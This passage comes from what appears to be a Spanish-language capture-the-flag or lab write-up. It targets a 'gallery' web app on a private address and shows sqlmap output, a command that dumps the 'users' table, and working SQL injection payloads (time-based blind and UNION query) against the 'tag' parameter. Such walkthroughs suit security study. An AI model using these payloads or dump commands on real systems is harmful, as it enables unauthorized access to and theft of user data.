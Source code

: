 ```
[*] gallery
[*] information_schema

[03:32:18] [INFO] fetching tables for database: 'gallery'
Database: gallery
[2 tables]
+-------+
| art   |
| users |
+-------+

[03:32:18] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.5.42'

[*] ending @ 03:32:18 /2025-06-19/
```

Veremos que hay `2` tablas bastante interesantes, vamos a extraer la informacion de la de `users` a ver que vemos.

```shell
sqlmap -r request.txt --dbs --batch -D gallery -T users --threads 10 --dump
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___["]_____ ___ ___  {1.9.2#stable}                                                                                                                     
|_ -| . [(]     | .'| . |                                                                                                                                    
|___|_  [.]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:33:26 /2025-06-19/

[03:33:26] [INFO] parsing HTTP request from 'request.txt'
[03:33:26] [INFO] resuming back-end DBMS 'mysql' 
[03:33:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tag (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tag=sqli' AND (SELECT 9943 FROM (SELECT(SLEEP(5)))KblS) AND 'bZbx'='bZbx

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: tag=sqli' UNION ALL SELECT NULL,CONCAT(0x71716b7071,0x51574e7344474e6e5a6d6f4641654d4b7a7744467477744d6b555775435062475542566b7a534b50,0x71766b7171),NULL-- -
---
[03:33:26] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[03:33:26] [INFO] fetching database names
available databases [2]:
```